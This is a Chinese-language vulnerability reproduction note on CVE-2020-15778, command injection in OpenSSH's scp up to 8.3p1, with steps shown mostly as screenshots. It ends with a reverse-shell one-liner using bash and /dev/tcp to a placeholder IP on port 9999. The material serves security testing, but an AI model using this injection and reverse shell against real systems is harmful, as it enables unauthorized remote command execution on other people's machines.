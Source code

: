 # OpenSSH-命令注入漏洞-CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

> [!NOTE]
>
> OpenSSH <= 8.3p1

## 漏洞复现

> [!NOTE]
>
> 可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![](OpenSSH-命令注入漏洞-CVE-2020-15778.assets/1627363550850113.jpg)

执行命令 ping dnslog

![](OpenSSH-命令注入漏洞-CVE-2020-15778.assets/16273635510798771.jpg)

反弹shell 更换命令即可

```
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

